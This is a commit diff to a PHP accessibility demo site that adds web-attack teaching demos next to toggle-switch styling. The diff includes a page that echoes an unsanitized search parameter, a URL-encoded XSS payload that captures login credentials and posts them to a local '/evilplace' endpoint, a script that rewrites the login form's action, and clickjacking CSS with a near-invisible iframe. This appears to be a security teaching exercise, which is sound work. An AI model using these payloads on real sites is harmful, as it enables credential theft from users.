
After one commit to geoSkogen/aria-pages, a PHP site: page /forms/index.php?sms=1 in a window 1280 px wide. The commit adds this page. Shown: the top 747 px of the page, without its empty margins (324-964 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
2024-3-22

```diff
--- a/css/aria-pages.css
+++ b/css/aria-pages.css
@@ -26,14 +26,15 @@ a#skip-to-main:focus {
   height: auto;
 }
 
-button {
+button, input[type="submit"] {
   padding: 1rem;
   background-color: #0B1D84;
   color: white;
   font-weight: 700;
   border: none;
   font-size: 1rem;
-  cursor: pointer
+  cursor: pointer;
+  border-radius: 0 0 0 0 !important;
 }
 
 p {
@@ -44,7 +45,7 @@ form {
   margin: 0.75rem 0.5rem 0.5rem 0.5rem;
 }
 
-label {
+label, span.input-label {
   display: inline-block;
   font-size: 1.2rem;
 }
@@ -60,6 +61,10 @@ input {
 
 .form-field-row {
   margin: 0 0.25rem 0.75rem 0.25rem;
+}
+
+.page-wrapper, .content-wrapper {
+  max-width: 1200px;
 }
 
 .flex-row {
@@ -98,7 +103,6 @@ input {
     width: 66%
   }
 }
-
 
 header > h1, header > h2 {
   text-align: center;
--- a/css/forms.css
+++ b/css/forms.css
@@ -5,3 +5,117 @@
 #login[aria-hidden="false"] {
   display: block;
 }
+
+#login {
+  //position: absolute;
+}
+
+#login-wrapper {
+  position: relative;
+}
+
+.hide {
+  display: none;
+}
+
+input.switch {
+  content: url('../img/switch-off.png');
+  height: 22px;
+  width: 40px;
+}
+
+input.switch:checked {
+  content: url('../img/switch-on.png');
+  height: 22px;
+  width: 40px;
+}
+
+input[aria-hidden="true"] {
+  display: none;
+}
+
+label.toggle-switch-label, div.toggle-switch-label {
+  position: relative;
+  display: inline-block;
+  width: 40px;
+  height: 60px;
+}
+
+input.toggle-switch {
+  opacity: 0;
+  width: 0;
+  height: 0;
+}
+
+.toggle-slider {
+  position: absolute;
+  cursor: pointer;
+  left: 0;
+  right: 0;
+  bottom: 40%;
+  height: 20%;
+  background-color: #ccc;
+  -webkit-transition: .4s;
+  transition: .4s;
+}
+
+.toggle-slider:before {
+  position: absolute;
+  content: "";
+  height: 26px;
+  width: 26px;
+  left: -6px;
+  bottom: -6px;
+  background-color: black;
+  -webkit-transition: .4s;
+  transition: .4s;
+  z-index: 100;
+}
+
+input.toggle-switch:checked + .toggle-slider:before,
+div.toggle-switch-label[data-checked="true"] > .toggle-slider:before {
+  background-color: green;
+}
+
+input.toggle-switch:focus + .toggle-slider,
+div.toggle-slider:focus {
+  box-shadow: 0 0 6px #2196F3;
+}
+
+input.toggle-switch:checked + .toggle-slider:before,
+div.toggle-switch-label[data-checked="true"] > .toggle-slider:before {
+  -webkit-transform: translateX(26px);
+  -ms-transform: translateX(26px);
+  transform: translateX(26px);
+}
+
+.ghost-toggle-switch {
+  display: none;
+}
+
+/* Rounded sliders */
+.toggle-slider.round {
+  border-radius: 34px;
+}
+
+.toggle-slider.round:before {
+  border-radius: 50%;
+}
+
+div#decoy {
+  height: 600px;
+  position: absolute;
+  z-index: 1;
+  width: 100%;
+}
+
+iframe#target {
+  top: -446px;
+  left: 46px;
+  height: 1000px;
+  width: 100%;
+  position: relative;
+  z-index: 2;
+  border: none !important;
+  opacity: 0.00001;
+}
--- /dev/null
+++ b/forms/clickjack-demo/uno.txt
@@ -0,0 +1 @@
+sms_enabled:false
--- /dev/null
+++ b/forms/index.php
@@ -0,0 +1,102 @@
+<?php
+$sms_checked = '';
+$sms_val = 'false';
+if ($_SERVER['REQUEST_METHOD']==='GET') {
+  if ($_GET['sms']==='true') {
+    $sms_checked = 'checked';
+    $sms_val = 'true';
+  }
+}
+
+?>
+
+<!DOCTYPE html>
+<html lang="en">
+<head>
+  <meta charset="UTF-8" name="viewport" content="width=device-width, initial-scale=1">
+  <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
+  <title>
+    Forms | ARIA Pages
+  </title>
+  <link rel="stylesheet" href="../css/atkinson-hyperlegible.css"/>
+  <link rel="stylesheet" href="../css/aria-pages.css"/>
+  <link rel="stylesheet" href="../css/forms.css"/>
+  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css">
+  <script src="https://code.jquery.com/jquery-3.7.1.min.js" integrity="sha256-/JqT3SQfawRcv/BIHPThkBvs0OEvtFFmqPF/lYI/Cxo=" crossorigin="anonymous"></script>
+</head>
+<body>
+<div class="flex-row flex-center">
+<div class="content-wrapper">
+
+  <div id="login-wrapper" class="flex-row flex-end">
+    <div id="login" aria-hidden="true" role="dialog" aria-modal="true">
+      <form action="xss-demo/login.php" method="POST">
+        <label for="username">username:</label><input id="username" name="username" type="text">
+        <br>
+        <label for="password">password:</label><input id="password" name="password" type="password">
+        <br>
+        <input id="submit-login" type="submit" value="sign in">
+      </form>
+    </div>
+  </div>
+
+  <div id="toolbar" class="flex-row flex-end">
+    <button id="sign-in" aria-expanded="false" aria-controls="login">sign in</button>
+  </div>
+
+  <div class="flex-row flex-center">
+    <header>
+      <p class="code" aria-hidden="true"><span>&lt;</span>a11y<span>&gt;</span></p>
+      <span>a bell is a cup<br/>until it is struck</span>
+      <h1>Forms</h1>
+    </header>
+  </div>
+
+  <ul id="breadcrumb-list" aria-label="breadcrumb">
+    <li><a class="breadcrumb-link" href="../..">ARIA Pages</a><span class="breadcrumb-link-delimiter">&raquo;</span></li>
+    <li><span aria-current="page">Form</span></li>
+  </ul>
+
+  <main id="main-content">
+    <div class="flex-row flex-end">
+      <h2>Search</h2>
+    </div>
+    <div class="flex-row flex-end">
+      <form id="site-search" action="xss-demo/index.php" method="GET">
+        <label for="serach">search</label><input placeholder="enter keywords" id="search" name="search">
+        <input id="submit-search" type="submit" value="search">
+      </form>
+    </div>
+    <div class="flex-row flex-center">
+      <h2>Form</h2>
+    </div>
+    <div class="flex-row flex-center">
+      <form id="aria-form" action="clickjack-demo/submit.php" method="POST">
+        <label for="enable-notifications">Enable Notifications:</label>
+        <input id="enable-notifications" type="checkbox" role="switch" class="switch" data-checked="<?php echo $sms_val ?>" name="sms" value="<?php echo $sms_val ?>" <?php echo $sms_checked ?> >
+        <br/>
+        <span id="enable-notificatios-2-label">Enable Notifications 2:</span>
+        <label id="enable-notifications-2-toggle-switch-label" class="toggle-switch-label" for="enable-notifications-2">
+          <input id="enable-notifications-2" type="checkbox" role="switch" class="toggle-switch" aria-labelledby="enable-notifications-2-label" data-checked="<?php echo $sms_2_val ?>" name="sms_2" value="<?php echo $sms_2_val ?>" <?php echo $sms_2_checked ?> >
+          <div id="enable-notifications-2-toggle-slider" class="toggle-slider round"></div>
+        </label>
+        <br/>
+        <span id="enable-notificatios-3-label">Enable Notifications 3:</span>
+        <div id="enable-notifications-3-toggle-switch-label" class="toggle-switch-label" aria-labelledby="enable-notifications-3-label" data-checked="false">
+          <div id="enable-notifications-3-toggle-slider" class="toggle-slider round" tabindex="0"></div>
+        </div>
+        <br/>
+        <input id="enable-notifications-3" type="checkbox" role="switch" class="ghost-toggle-switch" name="sms_3" value="<?php echo $sms_3_val ?>" <?php echo $sms_3_checked ?> >
+        <input type="submit" value="save changes">
+      </form>
+    </div>
+  </main>
+
+  <footer></footer>
+</div>
+</div>
+</body>
+<script src="../lib/forms/login-modal.js"></script>
+<script src="../lib/forms/data-toggles.js"></script>
+
+</html>
--- a/forms/xss-demo/index.php
+++ b/forms/xss-demo/index.php
@@ -1,4 +1,10 @@
 <?php
+/**
+* The 'dirty' parameter prints a GET query on the DOM without sanitizing it.
+* DEMOS
+* 1) Visit the URI /aria-pages/forms/xss-demo/?search=%3Cscript%3Ealert%28%27hello%20XSS%27%29%3C%2Fscript%3E.
+* 2)
+*/
 $dirty_param = 'placeholder';
 if ($_GET) {
   if (isset($_GET['search'])) {
--- /dev/null
+++ b/forms/xss-demo/login-submit-handler.urlencoded.txt
@@ -0,0 +1,2 @@
+XSS login attack posts username and password to http://localhost/evilplace/uno.txt
+http://localhost/aria-pages/forms/xss-demo/index.php?search=%3Cscript%3Edocument.getElementById%28%27submit-login%27%29.addEventListener%28%27click%27%2Cfunction%28event%29%7B%24.post%28%27%2Fevilplace%2Flogin.php%27%2C%7Busername%3Adocument.getElementById%28%27username%27%29.value%2Cpassword%3Adocument.getElementById%28%27password%27%29.value%7D%2Cfunction%28resp%29%7Bconsole.log%28resp%29%7D%29%7D%29%3C%2Fscript%3E
--- a/forms/xss-demo/login.php
+++ b/forms/xss-demo/login.php
@@ -1,6 +1,6 @@
 <?php
-if ($_POST) {
-  if ($_POST['username'] && $_POST['password']) {
+if ($_SERVER['REQUEST_METHOD']==='POST') {
+  if (isset($_POST['username']) && isset($_POST['password'])) {
     print('username and password found');
   }
 }
--- /dev/null
+++ b/lib/forms/data-toggles.js
@@ -0,0 +1,20 @@
+function toggle_check_state(toggle_target_el,hidden_checkbox) {
+  toggle_target_el.setAttribute(
+    'data-checked',
+    (!JSON.parse(toggle_target_el.getAttribute('data-checked'))).toString()
+  )
+  hidden_checkbox.checked = JSON.parse(toggle_target_el.getAttribute('data-checked'))
+}
+
+document.querySelectorAll('div.toggle-slider').forEach( (toggle_target) => {
+  toggle_target.addEventListener('click', function (event) {
+    let hidden_checkbox = document.getElementById(event.target.id.replace('-toggle-slider',''))
+    toggle_check_state(event.target.parentElement,hidden_checkbox)
+  })
+  toggle_target.addEventListener('keydown', function (event) {
+    if (event.code==='Enter') {
+      let hidden_checkbox = document.getElementById(event.target.id.replace('-toggle-slider',''))
+      toggle_check_state(event.target.parentElement,hidden_checkbox)
+    }
+  })
+})
--- /dev/null
+++ b/lib/forms/domclobber.js
@@ -0,0 +1,5 @@
+
+var addresses = {
+  location: 'portland',
+  destination: 'somewhere-good'
+}
--- a/lib/forms/login-form-redirect.js
+++ b/lib/forms/login-form-redirect.js
@@ -1,4 +1,6 @@
 /**
 * Reset the destination of the form handler to an external resource
+* URL-encoded query argument:
+*   document.getElementById%28%27login%27%29.setAttribute%28%27action%27%2C%27%2Fevilplace%2Flogin.php%27%29
 */
 document.getElementById('login').setAttribute('action','/evilplace/login.php')
--- a/lib/forms/login-modal.js
+++ b/lib/forms/login-modal.js
@@ -9,5 +9,9 @@ if (open_modal_button && login_modal) {
       'aria-hidden',
       !JSON.parse(login_modal.getAttribute('aria-hidden'))
     )
+    open_modal_button.setAttribute(
+      'aria-expanded',
+      !JSON.parse(open_modal_button.getAttribute('aria-expanded'))
+    )
   })
 }
```
Also changed, not shown: css/toggles.css (added, +100 -0 lines), forms/clickjack-demo/index.html (added, +33 -0 lines), forms/clickjack-demo/submit.php (added, +9 -0 lines), forms/dom-clobber-demo/index.php (added, +57 -0 lines), forms/toggles.html (added, +58 -0 lines), test.html (deleted, +0 -17 lines), forms/index.html (deleted), img/switch-off.png (added), img/switch-on.png (added).
